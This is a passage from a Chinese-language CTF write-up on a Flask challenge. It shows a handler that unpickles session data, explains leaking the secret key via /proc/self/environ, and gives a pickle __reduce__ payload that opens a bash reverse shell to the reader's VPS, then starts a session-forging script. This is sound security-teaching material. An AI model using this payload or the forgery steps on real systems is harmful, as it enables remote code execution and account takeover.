 ```python

@app.route('/admin', methods=('GET',))
def admin_handler():
    try:
        u = session.get('u')
        if isinstance(u, dict):
            u = b64decode(u.get('b'))
            u = pickle.loads(u)
    except Exception:
        return 'uhh?'
    if u.is_admin == 1:
        return 'welcome, admin'
    else:
        return 'who are you?'

if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=False)
```
:::


在`/proc/self/environ`伪文件里记录当前环境变量，可以看到python版本3.8.2，还可以读到源码里提到的密钥，待会可以用来伪造session

![6](https://the0n3.top/medias/buuflask/6.png)

这道题使用pickle反序列化，存在反序列化漏洞，类似php，反序列化的时候可以执行代码，可以通过`__reduce__`方法构造一个返回 shell 的对象，`__reduce__` 方法由用户自定义，用于定义对象的序列化和反序列化过程，在loads()函数调用时，在重建恢复(反序列化)对象时，会恢复reduce方法里的信息，可以达到命令执行的效果

python2和python3反序列化有些差异，这里需要使用python2来反序列化

```python
#!/usr/bin/python3.4
import os
import pickle
from base64 import b64encode


User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 1,
    '__repr__': lambda o: o.uname,
    '__reduce__': lambda o: (os.system,("bash -c 'bash -i >& /dev/tcp/你的vpsIP/7777 0>&1'",))
})

u = pickle.dumps(User())
print(b64encode(u).decode())
```

把ip替换成自己的vpsip，执行脚本，拿到反序列化user对象的字符串

伪造session脚本

::: v-pre
```python
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
```